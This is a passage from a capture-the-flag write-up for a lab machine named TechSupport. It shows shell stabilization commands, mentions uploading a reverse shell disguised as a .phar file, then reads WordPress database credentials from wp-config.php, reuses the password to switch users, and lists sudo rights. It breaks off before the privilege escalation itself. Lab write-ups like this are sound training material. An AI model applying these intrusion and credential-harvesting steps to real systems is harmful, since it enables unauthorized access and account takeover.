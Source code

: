 ```
myyxxvnjmgumqza.phar

```
### Shell Stabilization 

We can perform [[Shell Stabilization]] :

```
$ export TERM=xterm

$ python3 -c 'import pty;pty.spawn("/bin/bash")'

^Z
stty raw -echo;fg
             reset
```

This seems blocking the entire system so we need some other way, i tried get a shell uploading a php_reverse_shell from pentestmonkey modified in a .phar file (read python exploit) :

![[Pasted image 20250720172109.png]]

Now we can retry stabilization :

![[Pasted image 20250720172446.png]]
# Lateral Movement - Privilege Escalation

We start [[Privilege Escalation]] with [[Lateral Movement]] , both Subrion and [[Wordpress]] will have database credentials stored in config files, so let’s see if we can find the password for the scamsite user :

```
www-data@TechSupport:/var/www/html/wordpress$ cat wp-config.php | grep DB
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );
```

Now we try to access with this password :

```
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
Password: 
scamsite@TechSupport:/var/www/html/wordpress$ 
```

And we have a shell with scamsite user, let's try `sudo -l` :

```
scamsite@TechSupport:/var/www/html/wordpress$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv

```
